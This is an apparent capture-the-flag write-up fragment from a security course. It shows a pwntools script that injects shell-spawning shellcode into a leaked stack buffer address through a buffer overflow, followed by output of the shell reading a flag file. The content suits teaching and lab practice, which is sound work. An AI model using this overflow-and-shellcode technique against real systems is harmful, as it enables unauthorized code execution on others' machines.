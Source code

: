 ```jsx
from pwn import *

context.update(arch='i386', os='linux')

LOCAL = True

if LOCAL:
    p = process("./program")
else:
    p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil(b"Your buffer is ")
buffer = p.recvuntil(b".")[:-1]
buffer = (int(buffer, 16))

shellcode = shellcraft.sh()
shellcode = asm(shellcode)

payload = shellcode + b'\x00' * (108 - len(shellcode)) + p32(buffer)

p.sendline(payload)
p.interactive()
```

And it results in the following output:

```jsx
seed@da838f9f5ff1:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4001: Done
[*] Switching to interactive mode

Give me your input:
$ ls
flag.txt
run
$ cat flag.txt
flag{8bd466111fe1a4803dd4c54d3bdcbab7}
$
```
